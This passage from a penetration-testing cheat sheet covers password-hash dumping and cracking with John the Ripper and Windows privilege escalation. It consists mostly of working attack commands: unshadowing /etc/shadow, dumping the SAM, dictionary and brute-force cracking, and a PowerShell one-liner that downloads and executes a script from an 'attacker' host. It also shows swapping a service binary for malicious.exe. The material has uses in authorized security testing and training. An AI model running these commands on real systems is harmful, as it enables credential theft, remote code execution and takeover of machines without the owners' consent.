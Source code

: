 ### John the Ripper Advanced Usage
```bash
# Password Hash Extraction
unshadow /etc/passwd /etc/shadow > combined.txt          # Linux password preparation
samdump2 system sam > hashes.txt                         # Windows SAM dump

# John the Ripper Cracking
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt  # Dictionary attack
john --rules hashes.txt                                  # Rules-based attack
john --incremental hashes.txt                            # Incremental/brute force

# John with Custom Rules
john --wordlist=wordlist.txt --rules=All hashes.txt      # All rules
john --external=Filter_Alpha hashes.txt                  # External filters
```

**Documentation**: CPU-based password cracking with extensive rule sets and customization options.
**Limitations**: Slower than GPU-based tools; limited to specific hash formats.

## Windows Privilege Escalation

### Local Privilege Escalation Techniques
```bash
# System Information Gathering
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"     # OS version check
wmic qfe list                                            # Installed patches
whoami /priv                                             # Current privileges
net users                                                # List all users
net localgroup administrators                            # List administrators

# Automated Privilege Escalation Tools
# PowerUp.ps1 (PowerShell)
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/PowerUp.ps1'); Invoke-AllChecks"

# winPEAS (Windows Privilege Escalation Awesome Scripts)
winpeas.exe                                              # Automated enumeration
winpeas.bat                                              # Batch version

# Windows Exploit Suggester
windows-exploit-suggester.py --update                    # Update database
windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo systeminfo.txt
```

**Documentation**: Automated identification of privilege escalation vectors in Windows environments.
**Limitations**: May trigger antivirus detection; some exploits may not work on patched systems.

### Service Exploitation
```bash
# Service Permission Analysis
sc qc "service_name"                                     # Service configuration
accesschk.exe -uwcqv "Authenticated Users" *            # Service permissions
accesschk.exe -kwsu "Authenticated Users"               # Registry permissions

# Unquoted Service Path Exploitation
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Service Binary Replacement
sc stop vulnerable_service                               # Stop service
copy malicious.exe "C:\Program Files\Service\service.exe"  # Replace binary
sc start vulnerable_service                              # Start service
```